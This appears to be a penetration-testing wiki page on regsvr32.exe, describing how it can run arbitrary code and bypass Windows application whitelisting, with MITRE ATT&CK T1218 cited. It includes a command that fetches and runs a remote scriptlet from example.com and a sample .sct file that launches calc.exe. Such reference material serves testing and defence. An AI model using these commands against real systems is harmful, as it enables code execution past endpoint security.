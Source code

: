 # RegSrv32 - code execution

# Theory

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs)  in the Windows Registry. Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting.  

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system. 

# Practice
{% tabs %}
{% tab title="Regsvr32.exe" %}

```bash
#Execute dll
c:\Windows\System32\regsvr32.exe c:\Users\pwn\Downloads\malicious.dll

#Or
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\malicious.dll
```

```bash
#http://example.com/file.sct
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}